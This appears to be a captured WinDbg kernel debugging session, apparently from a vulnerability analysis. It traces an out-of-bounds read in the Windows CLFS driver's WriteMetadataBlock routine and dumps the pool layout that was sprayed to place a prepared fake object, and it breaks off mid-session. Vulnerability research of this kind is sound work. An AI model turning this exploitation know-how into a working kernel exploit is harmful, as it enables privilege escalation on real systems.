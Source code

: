     CLFS!CClfsBaseFilePersisted::WriteMetadataBlock+0x60:
    fffff801`4b293e90 4c8d04cd00000000 lea     r8,[rcx*8]
    0: kd>
    rax=0000000000000001 rbx=0000000000000000 rcx=0000000000000039
    rdx=0000000000000000 rsi=0000000000000013 rdi=ffff820bcb188000
    rip=fffff8014b293e98 rsp=fffff48ea2f7c340 rbp=0000000000000002
     r8=00000000000001c8  r9=0000000000000013 r10=0000000000000000
    r11=ffffa38528b05b20 r12=ffffa385273abb00 r13=0000000000000013
    r14=0000000000000002 r15=0000000000000000
    iopl=0         nv up ei pl nz na po nc
    cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040206
    CLFS!CClfsBaseFilePersisted::WriteMetadataBlock+0x68:
    fffff801`4b293e98 488b4f30        mov     rcx,qword ptr [rdi+30h] ds:002b:ffff820b`cb188030=ffff820bccc2f1f0
    0: kd>
    rax=0000000000000001 rbx=0000000000000000 rcx=ffff820bccc2f1f0
    rdx=0000000000000000 rsi=0000000000000013 rdi=ffff820bcb188000
    rip=fffff8014b293e9c rsp=fffff48ea2f7c340 rbp=0000000000000002
     r8=00000000000001c8  r9=0000000000000013 r10=0000000000000000
    r11=ffffa38528b05b20 r12=ffffa385273abb00 r13=0000000000000013
    r14=0000000000000002 r15=0000000000000000
    iopl=0         nv up ei pl nz na po nc
    cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040206
    CLFS!CClfsBaseFilePersisted::WriteMetadataBlock+0x6c:
    fffff801`4b293e9c 4d8b3408        mov     r14,qword ptr [r8+rcx] ds:002b:ffff820b`ccc2f3b8=ffffa3852abaa030
    0: kd> !pool ffff820bccc2f1f0
    Pool page ffff820bccc2f1f0 region is Nonpaged pool
     ffff820bccc2f000 size:   a0 previous size:    0  (Allocated)  NpFr Process: ffff820bca40b080
     ffff820bccc2f0a0 size:   a0 previous size:    0  (Allocated)  NpFr Process: ffff820bca40b080
     ffff820bccc2f140 size:   a0 previous size:    0  (Allocated)  NpFr Process: ffff820bca40b080
    *ffff820bccc2f1e0 size:   a0 previous size:    0  (Allocated) *Clfs
    		Pooltag Clfs : CLFS General buffer, or owner page lookaside list, Binary : clfs.sys
     ffff820bccc2f280 size:   a0 previous size:    0  (Allocated)  NpFr Process: ffff820bca40b080
     ffff820bccc2f320 size:   a0 previous size:    0  (Allocated)  NpFr Process: ffff820bca40b080       // out of bound read
     ffff820bccc2f3c0 size:   a0 previous size:    0  (Allocated)  NpFr Process: ffff820bca40b080
     ffff820bccc2f460 size:   a0 previous size:    0  (Allocated)  NpFr Process: ffff820bca40b080
     ffff820bccc2f500 size:   a0 previous size:    0  (Allocated)  NpFr Process: ffff820bca40b080
    0: kd> dq ffff820bccc2f320 l0n10
    ffff820b`ccc2f320  7246704e`0a0a0000 e059536e`7b11e38d
    ffff820b`ccc2f330  ffffa385`2d406518 ffffa385`2d406518
    ffff820b`ccc2f340  00000000`00000000 ffffa385`2dac6460
    ffff820b`ccc2f350  00000060`00000000 00000000`00000060
    ffff820b`ccc2f360  ffffa385`2abaa030 ffffa385`2abaa030              // g_clfs_target_obj + 30
    ffff820b`ccc2f370  ffffa385`2abaa030 ffffa385`2abaa030
    ffff820b`ccc2f380  ffffa385`2abaa030 ffffa385`2abaa030
    ffff820b`ccc2f390  ffffa385`2abaa030 ffffa385`2abaa030
    ffff820b`ccc2f3a0  ffffa385`2abaa030 ffffa385`2abaa030
    ffff820b`ccc2f3b0  ffffa385`2abaa030 ffffa385`2abaa030
    0: kd> !pool ffffa385`2abaa030
    Pool page ffffa3852abaa030 region is Paged pool
    *ffffa3852abaa000 : large page allocation, tag is Clfs, size is 0x7a00 bytes
    		Pooltag Clfs : CLFS General buffer, or owner page lookaside list, Binary : clfs.sys
    0: kd> db ffffa385`2abaa030-30          // prepared g_clfs_target_obj
    ffffa385`2abaa000  15 00 03 00 3d 00 3d 00-00 00 00 00 00 00 00 00  ....=.=.........
    ffffa385`2abaa010  02 00 00 00 00 00 00 00-00 00 00 00 ff ff ff ff  ................
    ffffa385`2abaa020  00 00 00 00 ff ff ff ff-70 00 00 00 00 00 00 00  ........p.......
    ffffa385`2abaa030  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    ffffa385`2abaa040  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    ffffa385`2abaa050  00 00 00 00 00 00 00 00-69 03 00 00 00 00 00 00  ........i.......
    ffffa385`2abaa060  00 00 00 00 00 00 00 00-80 79 00 00 00 00 00 00  .........y......
    ffffa385`2abaa070  05 00 00 00 00 00 00 00-c8 62 45 5b e7 87 ed 11  .........bE[....
    0: kd> db ffffa385`2abaa030-30+1470+70  // original CONTAINER_CONTEXT